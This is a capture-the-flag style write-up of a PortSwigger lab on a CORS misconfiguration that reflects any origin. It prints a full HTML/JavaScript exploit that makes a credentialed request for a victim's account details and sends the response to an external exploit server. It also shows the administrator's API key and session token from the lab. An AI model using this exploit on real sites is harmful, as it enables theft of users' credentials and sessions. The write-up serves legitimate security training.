 # CORS vulnerability with basic origin reflection | Dec 27, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack), you'll learn: CORS vulnerability with basic origin reflection! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-1/images/Pasted%20image%2020221227053046.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-1/images/Pasted%20image%2020221227053056.png)

**In the Burp Suite's HTTP history, I found something interesting:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-1/images/Pasted%20image%2020221227054354.png)

When we're logged in, it'll also send a GET request to `/accountDetails`, and **the response header has `Access-Control-Allow-Credentials`**, which indicates that the web application supports CORS(Cross-Origin Resource Sharing).

**Let's send that request to Burp Repeter, and add a HTTP header called `Origin`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-1/images/Pasted%20image%2020221227054705.png)

Note that the origin is reflected in the `Access-Control-Allow-Origin` response header.

**Hmm... What if an attacker can send a GET request to `/accountDetails`, and retrieve sensitive information?**

**To do so, I'll write a HTML file to do that, host it on the exploit server, and deliver the exploit to the victim:**
```html
<html>
    <head>
        <title>CORS-1</title>
    </head>
    <body>
        <script>
            var req = new XMLHttpRequest();
            req.onload = reqListener;
            req.open('get','https://0ab5004903f59d88c017e57d003e0078.web-security-academy.net/accountDetails',true);
            req.withCredentials = true;
            req.send();

            function reqListener() {
              location='//exploit-0a28004803ec9dcac025e4430179005c.exploit-server.net/?data='+this.responseText;
            };
        </script>
    </body>
</html>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-1/images/Pasted%20image%2020221227054917.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-1/images/Pasted%20image%2020221227055023.png)

**We successfully retrieved victim's data!**
```json
{
    "username": "administrator",
    "email": "",
    "apikey": "LzZwsDlAMoTuJAwINt8FJJipytW0Adbx",
    "sessions": [
        "xcu3ZpRXDah5K0V5r7TLbz5hMDLDiFGZ"
    ]
}
```

Let's submit the API key!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-1/images/Pasted%20image%2020221227055235.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-1/images/Pasted%20image%2020221227055254.png)

# What we've learned:

1. CORS vulnerability with basic origin reflection